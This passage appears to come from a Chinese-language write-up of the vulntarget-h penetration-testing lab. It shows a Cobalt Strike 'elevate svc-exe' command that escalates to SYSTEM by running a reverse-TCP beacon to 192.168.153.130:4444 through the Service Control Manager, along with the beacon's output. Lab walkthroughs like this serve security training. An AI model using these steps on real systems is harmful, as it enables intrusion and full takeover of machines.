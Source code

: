 ![Screenshot_2022-07-02_12_27_30.png](../images/vulntarget-h-WriteUp/Screenshot_2022-07-02_12_27_30.png)

+ 提升到SYSTEM权限。

```bash
beacon> elevate svc-exe b_192.168.153.130
[*] Tasked beacon to run windows/beacon_reverse_tcp (192.168.153.130:4444) via Service Control Manager (\\127.0.0.1\ADMIN$\ba77d60.exe)
[+] host called home, sent: 285738 bytes
[+] host called home, sent: 1819 bytes
[+] received output:
Started service ba77d60 on .
```

![Screenshot_2022-07-02_12-30-57.png](../images/vulntarget-h-WriteUp/Screenshot_2022-07-02_12-30-57.png)
